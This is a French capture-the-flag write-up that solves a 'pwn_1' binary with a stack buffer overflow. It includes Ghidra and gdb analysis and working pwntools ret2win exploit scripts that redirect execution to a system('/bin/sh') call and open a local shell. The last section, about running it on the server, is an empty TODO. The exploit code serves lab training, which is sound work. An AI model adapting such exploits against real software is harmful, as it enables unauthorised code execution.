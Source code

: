 # Pwn_1

## Analyse statique

À l'aide de Ghidra on retrouve :

- un buffer overflow dans `main` :

```C
char local_12 [10];

puts(&DAT_00402340);
fgets(local_12,50,stdin);
```

- une fonction `win` qui ouvre un shell :

```C
system("/bin/sh");
```

Vérifions les sécurités activées sur le binaire :

```console
$ checksec --file pwn_1 
[*] '/tmp/coucou/pwn_1'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Pas de canary : nous pouvons utiliser le buffer overflow pour rediriger le programme.
Pas de PIE : nous pouvons avoir l'adresse de `win`.

Nous sommes dans le cas d'un [ret2win](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win). Il faut réecrire par dessus l'adresse utiliser pour `return` dans le main, et rediriger le programme vers la fonction `win` pour obtenir un `shell`.

## Analyse dynamique

Le padding nécessaire pour rediriger le programme :

```python
from pwn import *

payload = b"".join([
    b"A"*18,
    b"B"*8,
])

p = process("./pwn_1")
input("Waiting for debuger")
p.send(payload+b"\n")
p.interactive()
```

```gdb
───────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffd7c6f1e38│+0x0000: "BBBBBBBB\n"	 ← $rsp
0x00007ffd7c6f1e40│+0x0008: 0x00007ffd7c6f000a  →  0x0000000000000000
0x00007ffd7c6f1e48│+0x0010: 0x00007ffd7c6f1f58  →  0x00007ffd7c6f2fbc  →  0x00315f6e77702f2e ("./pwn_1"?)
0x00007ffd7c6f1e50│+0x0018: 0x0000000100400040 ("@"?)
0x00007ffd7c6f1e58│+0x0020: 0x00000000004011b7  →  <main+0000> push rbp
0x00007ffd7c6f1e60│+0x0028: 0x00007ffd7c6f1f58  →  0x00007ffd7c6f2fbc  →  0x00315f6e77702f2e ("./pwn_1"?)
0x00007ffd7c6f1e68│+0x0030: 0x3c27ced470f780c2
0x00007ffd7c6f1e70│+0x0038: 0x0000000000000001
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011e6 <main+002f>      call   0x401030 <puts@plt>
     0x4011eb <main+0034>      mov    eax, 0x0
     0x4011f0 <main+0039>      leave  
 →   0x4011f1 <main+003a>      ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn_1", stopped 0x4011f1 in main (), reason: SIGSEGV
```

Depuis Ghidra nous pouvons retrouver l'adresse de la function `win` : `0x00401156`.

## Exploit

```python3
from pwn import *

system = 0x401156

payload = b"".join([
    b"A"*18,
    p64(system),
])

p = process("./pwn_1")
p.send(payload+b"\n")
p.recvuntil(b"adorable...\n")
p.interactive()
```

```console
$ python3 solve.py 
[+] Starting local process './pwn_1': pid 47796
Waiting for debugeur
[*] Switching to interactive mode
Vas-y, tape ton précieux mot de passe... si tu l'oses ! Voyons voir si tu arrives à te connecter ahaha
Haha, tu as vraiment cru que quelque chose allait se passer ? Je t’ai dit que tu ne pouvais pas te connecter ! Continue d’essayer, c’est adorable...
LOGGED IN

User : Admin

Options :
1 - shell
2 - exit
$ 1
Quoi ?! Comment es-tu arrivé ici ?! Je savais que j’aurais dû supprimer tout ça… Peu importe, je ne te laisserai pas aller plus loin !
[*] Got EOF while reading in interactive
$ 
[*] Process './pwn_1' stopped with exit code -11 (SIGSEGV) (pid 47796)
[*] Got EOF while sending in interactive
```

Nous sommes arrivé jusqu'à la fonction `win`, mais pas de shell... En regardant la fonction de plus prêt :

```C
fgets(user_input,2,stdin);
strcmp_return_code = strcmp(user_input,"1");
if (strcmp_return_code == 0) {
    puts(&DAT_004022a8);
    if (user_input[0] == '\0') {
        system("/bin/sh");
    }
}
```

Pour passer cette condition : `if (strcmp_return_code == 0) {`, il faut saisir `1`. Mais pour atteindre le shell, il faut que `user_input` soit vide : `if (user_input[0] == '\0') {`. Se sont des conditions insatisfiable. Plutôt que d'exécuter toute la fonction `win`, nous allons donc directement aller à l'exécution de `system` qui nous intéresse :

```gdb
   0x00000000004011aa <+84>:	mov    edi,0x40232e
   0x00000000004011af <+89>:	call   0x401040 <system@plt>
```

```python
from pwn import *

system = 0x4011aa

payload = b"".join([
    b"A"*18,
    p64(system),
])

p = process("./pwn_1")
p.send(payload+b"\n")
p.recvuntil(b"adorable...\n")
p.interactive()
```

```console
$ python3 solve.py 
[+] Starting local process './pwn_1': pid 48700
[*] Switching to interactive mode
$ whoami
geoffrey
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './pwn_1' stopped with exit code -7 (SIGBUS) (pid 48700)
[*] Got EOF while sending in interactive
```

Plus qu'à lancer sur le serveur :

## TODO

